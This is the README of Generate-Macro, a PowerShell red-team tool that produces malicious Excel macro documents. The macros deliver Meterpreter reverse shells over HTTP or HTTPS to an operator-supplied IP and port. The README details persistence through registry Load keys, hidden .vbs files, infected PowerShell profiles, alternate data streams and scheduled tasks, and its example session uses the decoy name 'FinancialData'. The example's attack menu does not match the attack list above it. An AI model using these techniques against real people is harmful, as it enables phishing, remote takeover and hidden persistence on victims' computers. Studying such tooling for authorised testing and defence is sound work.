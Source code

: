 <h2>Coded by Matt Nelson (@enigma0x3)</h2>

<h4>SYNOPSIS</h4>
Generate-Macro is a standalone PowerShell script that will generate a malicious Microsoft Office document with a specified payload and persistence method.

<h4>DESCRIPTION</h4>
This script will generate malicious Microsoft Excel Documents that contain VBA macros. 
This script will prompt you for an IP address and port (you will receive your shell at this address and port) and the name of the malicious document. From there, the script will then prompt you to choose from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

<i>These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> <a href="https://www.twitter.com/mattifestation" target="_blank">@mattifestation</a></i>

<h4>ATTACK TYPES</h4><ul>
<li>Meterpreter Shell with Logon Persistence: <br />
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.</li>

<li>Meterpreter Shell with PowerShell Profile Persistence: <br />
This attack requires the target user to have Administrator privileges but is quite creative. 
It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. 
Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.</li>

<li>Meterpreter Shell with Alternate Data Stream Persistence: <br />
This attack will give you a shell and then persists by creating 2 alternate data streams attached to the AppData
folder. It then creates a registry key that parses the Alternate Data Streams and runs the Base64 encoded payload.</li>

<li>Meterpreter Shell with Scheduled Task Persistence: <br />
This attack will give you a shell and then persist by creating a scheduled task with the action set to
the set payload.</li>

<h4>EXAMPLE</h4>
```
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
```
